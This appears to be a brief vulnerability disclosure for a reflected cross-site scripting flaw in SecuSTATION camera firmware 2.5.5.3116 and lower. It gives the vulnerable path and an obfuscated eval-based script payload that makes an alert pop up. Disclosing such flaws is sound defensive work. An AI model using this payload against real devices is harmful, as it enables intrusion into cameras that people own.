 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

##Discoverer: Jiayang Zhou 

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/1.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/2.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/4.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































